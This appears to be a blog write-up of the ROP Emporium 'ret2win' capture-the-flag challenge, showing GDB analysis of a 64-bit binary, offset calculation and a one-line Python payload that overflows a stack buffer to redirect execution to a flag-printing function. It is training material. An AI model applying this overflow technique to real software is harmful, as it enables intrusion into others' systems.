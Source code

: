
---
layout: post
title:  "ROP-Emporium-ret2win"
date:  
categories: [Return-oriented programming]
excerpt: "Recently while i was doing a Hackthebox machine which involves binary exploitation and ROP, i was really struggling to make things works."
---

## Introduction
Recently while i was doing a Hackthebox machine which involves binary exploitation and ROP, i was really struggling to make things works. so to improve my pwn and ROP skills i decide to do various ROP challenges, im starting with ROP Emporium challenges. These challenges use the usual CTF objective of retrieving the contents of a file named "flag.txt" from a remote machine by exploiting a given binary.
ROP theory is out of scope of this article, If you want ROP theory there are lot of good resources out there.

## Description 
Locate a method within the binary that you want to call and do so by overwriting a saved return address on the stack.
Click below to download the binary. 

### About the Binary:
Our binary is usual ELF executable in 64-bit architecture. 

![source-01](/img/Screenshot_2020-05-09_11-12-06.png){: .align-left}


PIE isn't enabled so the binary will be loaded at a fixed location into memory (0x400000) everytime.With nx set to true, we know shellcode cannot be executed off the stack and we know binary has ASLR disabled.

## Analyzing the 64bit ELF binary
Lets load the binary with GDB and dump the functions.
```
gef➤  info functions
All defined functions:

Non-debugging symbols:
0x00000000004005a0  _init
0x00000000004005d0  puts@plt
0x00000000004005e0  system@plt
0x00000000004005f0  printf@plt
0x0000000000400600  memset@plt
0x0000000000400610  __libc_start_main@plt
0x0000000000400620  fgets@plt
0x0000000000400630  setvbuf@plt
0x0000000000400640  __gmon_start__@plt
0x0000000000400650  _start
0x0000000000400680  deregister_tm_clones
0x00000000004006c0  register_tm_clones
0x0000000000400700  __do_global_dtors_aux
0x0000000000400720  frame_dummy
0x0000000000400746  main
0x00000000004007b5  pwnme
0x0000000000400811  ret2win
0x0000000000400840  __libc_csu_init
0x00000000004008b0  __libc_csu_fini
0x00000000004008b4  _fini
```
Here we can see interesting functions:
- main()
- pwnme()
- ret2win()

So lets see what this fucntions does!

main():


![source-01](/img/Screenshot_2020-05-09_11-15-15.png){: .align-left}


So The main function  uses puts() to output a some texts, then calls the pwnme(), the texts we get when we run the program first time.


pwnme():


![source-01](/img/Screenshot_2020-05-09_11-16-18.png){: .align-left}


We see that the pwnme function allocates a 32 byte (0x20 hex) area of memory.fgets function that will get 50 bytes from standard input into the buffer.
This function takes user input using fgets(), and stores it in a  buffer of size 32. There is no bound check on the buffer, it is pretty clear that there is a is a stack bufferoverlow.


ret2win()


![source-01](/img/Screenshot_2020-05-09_11-17-39.png){: .align-left}


This function call system with /bin/cat flag.txt, so we need to return to this function to exploit the binary successfuly. 


## Fuzzing:
So now the binary analysis is out of the way Lets start the fun part.
Run the binary and enter some input

I enter 'welcome' and the program just exits, as expected. Lets start fuzzing the binary.
Run the program and send more than 40 bytes
```

➜  ret2win ./ret2win      
ret2win by ROP Emporium
64bits
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAaa
[5]    74490 segmentation fault  ./ret2win

```
As expected the program segfaulted(crashed),we have a valid crash scenario here,but we are not sure if we overwritten any registers.So lets attach the binary to gdb and work on exploit.

Attach the binary to GDB using gdb -q return2win

## Calculating offset
Generate cylic pattern using gef and send to the program
```
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
[+] Saved as '$_gef0'
```
Copy past the generated pattern to the program


![source-01](/img/Screenshot_2020-05-09_11-20-57.png){: .align-left}


The program has crashed and we have overwritten the rsp,to find the extact offset copy the hex at rsp to the clipboard, then type pattern offset.


![source-01](/img/Screenshot_2020-05-09_11-23-21.png){: .align-left}


# Exploiting:

We have 40 bytes to fill the stack and then we need to put the address of the ret2win function.So that the saved return address will contain the address of the ret2win function (0x400811), and the program  execute the function.

The exploit then will look as follows:

Payload:

The payload will be very simple:

[40 chars of junk] + [address of ret2win]
"A"*40             + "\x11\x08\x40"

Here is my final exploit: python -c 'print "\x90"*40 + "\x11\x08\x40\x00\x00\x00\x00\x00"' | ./ret2win


![source-01](/img/Screenshot_2020-05-09_15-53-55.png){: .align-left}



Putting it all together, we have the following exploit, used pwntools to learn the tool.

Screenshot_2020-05-09_16-20-05.png	

![source-01](/img/Screenshot_2020-05-09_16-20-05.png){: .align-left}


w00t we got the flag!

### ~ End ~
Thats the end of ret2win challenge, as i progress through the challenges the exploits will become more complex and fun.Remember never stop learning, Cheers!.
> Exploit code for this challenge is on my github 



